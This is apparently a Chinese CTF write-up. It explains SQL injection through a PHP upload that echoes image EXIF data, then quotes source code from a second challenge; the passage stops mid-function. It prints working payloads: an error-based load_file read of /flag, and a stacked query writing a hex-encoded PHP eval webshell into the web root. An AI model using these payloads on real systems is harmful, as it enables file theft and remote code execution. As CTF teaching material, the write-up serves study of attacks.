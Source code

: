 ### 你没见过的注入

登录后发现有文件上传接口，上次文件后可得到文件名，文件路径，文件类型信息

通过上次内容回显推测代码 

```php
$filetype = (new finfo)->file($_FILES['file']['tmp_name']);
```

finfo->file()可以输出图片的EXIF信息 我们可以用ps生成一张图片的copyright，内容可控

```sql
报错回显：
INSERT INTO file(filename,filepath,filetype) VALUES ('333185d44ecf74df3a914f392e090d99.zip','upload/333185d44ecf74df3a914f392e090d99.zip','JPEG image data, Exif standard: [TIFF image data, little-endian, direntries=1, copyright=xx'#], progressive, precision 8, 2x2, frames 3');

```

最后可以直接读文件，或堆叠注入写入shell

```
'^(extractvalue(1,concat(0,(select/**/load_file('/flag))))); 

');select 0x3c3f706870206576616c28245f504f53545b305d293b into outfile '/var/www/html/4.php';
```

### 给你shell

#### 第一层

`/^[\"0-9A-Z]*}$/` 正则可以匹配的json数据 `{"secret":115}`

haveFun函数可以判断爆破的范围

通过php的变量的强制转换，将字符串转成整数

```php
<?php
//It's no need to use scanner. Of course if you want, but u will find nothing.
error_reporting(0);
include "config.php";

if (isset($_GET['view_source'])) {
    show_source(__FILE__);
    die;
}

function checkCookie($s) {
    $arr = explode(':', $s);
    if ($arr[0] === '{"secret"' && preg_match('/^[\"0-9A-Z]*}$/', $arr[1]) && count($arr) === 2 ) {
        return true;
    } else {
        if ( !theFirstTimeSetCookie() ) setcookie('secret', '', time()-1);
        return false;
    }
}

function haveFun($_f_g) {
    $_g_r = 32;
    $_m_u = md5($_f_g);
    $_h_p = strtoupper($_m_u);
    for ($i = 0; $i < $_g_r; $i++) {
        $_i = substr($_h_p, $i, 1);
        $_i = ord($_i);
        print_r($_i & 0xC0);
    }
    die;
```